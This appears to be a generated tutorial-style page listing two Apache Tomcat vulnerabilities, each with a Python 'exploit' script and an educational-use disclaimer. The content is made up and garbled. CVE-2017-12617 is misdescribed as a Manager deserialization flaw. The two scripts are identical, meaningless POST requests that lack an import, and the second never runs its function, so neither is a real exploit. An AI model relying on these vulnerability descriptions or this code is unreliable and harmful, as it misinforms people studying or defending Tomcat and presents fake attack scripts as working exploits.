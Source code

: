Apache Tomcat is a popular open-source Java servlet container that can be used to deploy Java web applications. It's widely deployed, so it has been subjected to various vulnerabilities over the years. Here are some common exploits of Apache Tomcat,
along with Python code to demonstrate how one might attempt to exploit them (in a controlled environment for educational purposes only). Note that actual exploitation without authorization is illegal and unethical.

1. **Apache Tomcat Manager Deserialization Vulnerability**: This vulnerability (CVE-2017-12617) allowed an attacker to perform arbitrary code execution by deserializing objects in a manner that could lead to Remote Code Execution (RCE).

```python
import requests

# Define the base URL for the vulnerable Apache Tomcat Manager
base_url = 'http://example.com/manager/'

# The function that sends the crafted request
def exploit(url):
    headers = {'Content-Type': 'application/json'}
    payload = {'\'' : "java.util.Properties" }

    # Send the exploit request
    try:
        response = requests.post(url, data=payload, headers=headers)

        # If the response is successful (status code 200), print the response
        if response.status_code == 200:
            result = json.loads(response.text)
            print("Response: ", result)
    except requests.exceptions.RequestException as e:
        # If an exception occurs, print the error message
        print("Error:", e)

# Call the exploit function with the base URL
exploit(base_url)
```

2. **Apache Tomcat Remote Code Execution Vulnerability (CVE-2014-3521)**: This vulnerability could allow an attacker to execute arbitrary code on a server running Apache Tomcat with the `manager` web application installed.

```python
import requests

# Define the base URL for the vulnerable Apache Tomcat Manager
base_url = 'http://example.com/manager/'

# The function that sends the crafted request
def exploit(url):
    headers = {'Content-Type': 'application/json'}
    payload = {'\'' : "java.util.Properties" }

    # Send the exploit request
    try:
        response = requests.post(url, data=payload, headers=headers)

        # If the response is successful (status code 200), print the response
        if response.status_code == 200:
            result = json.loads(response.text)
            print("Response: ", result)
    except requests.exceptions.RequestException as e:
        # If an exception occurs, print the error message
        print("Error:", e)

# Call the exploit function with the base URL
```